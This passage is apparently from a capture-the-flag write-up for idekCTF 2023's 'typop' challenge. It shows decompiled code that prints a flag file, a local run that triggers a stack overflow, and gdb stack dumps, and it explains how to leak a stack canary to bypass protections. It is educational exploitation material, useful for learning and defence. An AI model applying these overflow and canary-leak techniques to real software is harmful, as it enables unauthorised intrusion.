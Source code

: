 ```
  local_52 = CONCAT17(0x74,CONCAT16(0x78,CONCAT15(0x74,CONCAT14(0x2e,CONCAT13(0x67,CONCAT12(param _3,
                                                  CONCAT11(param_2,param_1)))))));
  __stream = fopen((char *)&local_52,"r");
  if (__stream == (FILE *)0x0) {
    puts("Error opening flag file.");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fgets((char *)&local_48,0x20,__stream);
  puts((char *)&local_48);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
We can confirm that the overflow exists by quickly running the program locally and noting the "stack smashing detected" error. We can also see that some extra data seems to be getting printed after the response to the first question, which indicates a leaking strategy.
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments$ ./chall
Do you want to complete a survey?
y
Do you like ctf?
aaaaaaaaaaaaa
You said: aaaaaaaaaaaaa
c
Aww :( Can you provide some extra feedback?
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
*** stack smashing detected ***: terminated
Aborted
```
## Bypassing Canary and PIE:

So, a canary is present in the binary, which means that the easiest way to deal with it will be to leak it. In x86-64, a canary is eight bytes long, and located at offset rbp-8 on the stack. The first byte is always a null, and the next seven bytes are random. Because the read function has an overflow, and no attempt is made to null terminate the string before it's printed back, we can leak the random seven bytes by overflowing up to and including the null byte with arbitrary content. The print function will print bytes until it hits the null terminator, which now will occur after the canary.

Here is a view of the stack if I just input a single 'a' character with a newline. It looks like there are ten bytes before the character, then adding an additional character will overflow the null byte.
```
gef➤  x/20gx 0x00007ffe66171dde
0x7ffe66171dde: 0x0000000000000a61      0x13f9badf54000000
0x7ffe66171dee: 0x7ffe66171e002861      0x55af820264470000
gef➤  x/gx $rbp-8
0x7ffe66171de8: 0x286113f9badf5400
```
And here is the stack when I send 11 characters of 'a's.
```
gef➤  x/20x 0x00007ffda96ba8fe
0x7ffda96ba8fe: 0x6161616161616161      0x226830aced616161
```